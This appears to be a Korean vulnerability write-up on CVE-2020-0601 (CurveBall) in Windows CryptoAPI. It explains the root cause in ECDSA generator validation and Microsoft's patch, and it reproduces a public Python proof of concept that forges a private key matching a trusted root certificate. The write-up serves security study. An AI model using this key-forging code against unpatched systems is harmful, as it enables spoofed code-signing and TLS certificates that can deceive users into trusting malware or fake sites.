



# Curveball - Windows CryptoAPI Spoffing 취약점

## Information
- CVE : 2020-0601
- 해당 소프트웨어 : Crypto32.dll in Windows 
- 해당 버전 : Windows 10, Windows Server 2016 and 2019 (before patch jan 14,2020)
- 취약점 유형 : 인증서 스푸핑


## Description
Windows CryptoAPI (Crypt32.dll)이 타원곡선전자서명알고리즘 (Elliptic Curve Digital Signature Algorithm, ECDSA)으로 서명된 인증서의 유효성을 검사하는 방식에서 취약점이 존재한다. 공격자는 스푸핑된 Code Signing Certificate를 통해 악의적인 실행파일에 서명할 수 있다. 이 경우, 서명된 실행파일은 신뢰할 수 있는 공급자에 의해 서명된것처럼 사용자에게 보여지게 된다. 뿐만 아니라, SSL/TLS로 암호화된 페이지도 마찬가지로 위조가 가능하며, 아래 그림처럼 정상적인 페이지로 보여지게 된다.


## Root Cause

이 취약점은 X.509인증서를 신뢰할 수있는 Root CA로 추적 할 수 있는지 확인하기 위해 사용되는  CertGetCertificateChain()함수에서 발생한다. 해당 함수에 대해 설명하기 이전에 ECDSA를 이용한 서명과 검증에 대해 이해할 필요가 있다. 

ECDSA에서, 개인키 k는 충분히 큰 정수로 설정되며, 타원곡선 E에 대해 P=k*G로 계산되는 공개키 P가 설정된다. 이 때 G는 해당 곡선의 생성자(generator)로써, 거대한 소수로 설정된다. 또한, 이 값은 통상 표준화되어있는 것이 일반적이다. 

정상적으로 검증 루틴이 구현되어있다면, 개인키 k를 이용하여 서명하는 대상에 대해 정상적인 생성자로 세팅되어있는지를 검사하고, k*G의 값이 공개키와 일치하는지를 확인해야 할 것이다. 그러나, 문제가 된 CertGetCertificatieChain()함수에서 생성자를 검증하지 않아 문제가 발생한다. 
SK InfoSec에서 패치 전/후를 분석해놓은 보고서를 보면, 패치 전에는 검증 루틴에서 단순히 memcpy로 공개키만 비교하여 문제가 발생하였음을 알 수 있다. 



공격자가 생성자를 자유롭게 선택할 수 있기 때문에, 공개키 P에 대해 P=k'*G'를 만족하는 쌍 (k',G')을 만드는 것은 어렵지 않게 가능하다. 이 [PoC](https://github.com/kudelskisecurity/chainoffools/blob/master/gen-key.py)의 쌍 생성 부분에서도, 개인키를 2로 고정하고 2*G=P를 만족하는 G를 역으로 구해주고 있음을 알 수 있다. 




## Patch
Microsoft는 새로운 함수인 ChainComparePublicKeyParametersAndBytes()를 추가해서 딘순히 발행자와 공개키 해시를 비교하는 대신 신뢰하는 루트 인증서와 실제로 종단 인증서에 서명하는데 사용된 인증서 사이에 파라미터들과 바이트를 비교하게 하여 해당 문제를 해결하였습니다. 만약 앞선 취약점 PoC와 같이 생성자 혹은 다른 파라미터를 변경할 경우, CryptVerifySignatuerEx()가 실제 신뢰하는 루트 인증서와 파라미터를 다시 가져오게 된다.



## PoC
[공개된 PoC](https://github.com/kudelskisecurity/chainoffools)는 아래와 같다. 공개된 다른 PoC들도 많지만, 이는 Reference에만 첨부한다. 
```python
#!/usr/bin/env python3
import gmpy2
import sys

from fastecdsa.curve import P384
from fastecdsa.point import Point
from Crypto.Util.asn1 import DerSequence, DerOctetString, DerBitString, DerObjectId
from Crypto.IO import PEM
from Crypto.PublicKey import ECC
from binascii import hexlify

def generate_privkey(d, generator):
    """
        Generate a private key with explicit parameters.
    """
    modulus_bytes = 48
    a = P384.a % P384.p
    public_key = d * generator
    generator = (b'\x04' +
        generator.x.to_bytes(modulus_bytes, "big") +
        generator.y.to_bytes(modulus_bytes, "big"))
    public_key = (b'\x04' + 
                    public_key.x.to_bytes(modulus_bytes, "big") +
                    public_key.y.to_bytes(modulus_bytes, "big"))

    field_parameters =  DerSequence([DerObjectId("1.2.840.10045.1.1"), P384.p])
    parameters = [DerSequence([1, field_parameters,
                    DerSequence([
                    DerOctetString(a.to_bytes(modulus_bytes, "big")),
                    DerOctetString(P384.b.to_bytes(modulus_bytes, "big"))]),
                    DerOctetString(generator),
                    P384.q,
                1
            ])]
    seq = [1,
            DerOctetString(d.to_bytes(modulus_bytes, "big")),
            DerSequence(parameters, implicit=0),
            DerBitString(public_key, explicit=1)]
    
    return seq

if __name__ == "__main__":

    if len(sys.argv) != 2:
        print("Usage " + sys.argv[0] + " root-certificate.pem")
        sys.exit()

    # Public key extraction
    cert = open(sys.argv[1], "r")
    pubkey = ECC.import_key(cert.read())
    cert.close()
    nb_bytes = pubkey.pointQ.size_in_bytes()

    if pubkey.curve != "NIST P-384":
        print("Public key must be on P-384 curve")
        sys.exit()

    Q = Point(int(pubkey.pointQ.x), int(pubkey.pointQ.y), curve=P384)

    # Generate rogue generator
    # we take the private key as being 2
    privkey = 2
    # we multiply our public key Q with the inverse of our chosen private key value
    rogueG = gmpy2.invert(privkey,P384.q) * Q
    der = DerSequence(generate_privkey(privkey, rogueG))
    # Generate new file
    f = open('p384-key-rogue.pem','w')
    keyfile = PEM.encode(der.encode(), 'EC PRIVATE KEY')
    f.write(keyfile)
    f.close()
```

## Reference
- [PoC written by kudelskisecurity](https://github.com/kudelskisecurity/chainoffools)
- [PoC written by ollypwn](https://github.com/ollypwn/CurveBall)
- [Windows CryptoAPI Spoofing 취약점 written by SK Infosec](http://blog.naver.com/skinfosec2000/221808540609)
- [An In-Depth Technical Analysis of CurveBall (CVE-2020-0601)](https://blog.trendmicro.com/trendlabs-security-intelligence/an-in-depth-technical-analysis-of-curveball-cve-2020-0601/)
